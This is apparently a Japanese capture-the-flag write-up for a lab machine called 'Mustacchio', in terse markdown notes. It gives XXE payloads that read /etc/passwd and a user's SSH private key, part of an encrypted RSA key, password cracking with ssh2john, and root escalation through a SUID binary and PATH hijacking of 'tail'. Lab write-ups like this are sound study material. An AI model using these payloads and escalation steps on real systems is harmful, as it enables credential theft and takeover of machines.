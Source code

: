 ```yaml
---
title: "Mustacchio"
date: 2024-03-16T14:06:52+09:00
draft: false
---
```


- /custom/js/users.bak というファイルがある．
  - admin:~~ みたいなのがあって，パスワードがハッシュ化されているのでクラックする
-行き詰ったので ```nmap -A -p-```
  - ultraseek-http みたいなのが 8765 で開いてる
  - admin ログインできる
  - XML コードを入れられる
  - XXE

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "XML Injection"> ]>
<comment>
<name>Joe Hamd</name>
<author>&example;</author>
<com>Test paragraph</com>
</comment>
```

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe **SYSTEM** 'file:///etc/passwd'>]>
<comment>
<name>Joe Hamd</name>
<author>Joe</author>
<com>&xxe;</com>
</comment>
```

- ソースコードに barry, ssh して！みたいなコメントがあったので

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:////home/barry/.ssh/id_rsa'>]>
<comment>
<name>Joe Hamd</name>
<author>Joe</author>
<com>&xxe;</com>
</comment>
```

- SSH 鍵をゲット
  - フォーマットがウザい

```txt
- ----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
~~~ snip ~~~
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

- ssh2john

### root

- ```find / -perm -u=s -type f 2>/dev/null```
  - live_log を見つける
  - 権限 s
  - strings で tail を見つける
  - 絶対パスじゃないのでパスを追加
  - /tmp に tail → /bin/bash を作成
  - ```export PATH=”/tmp:$PATH”```
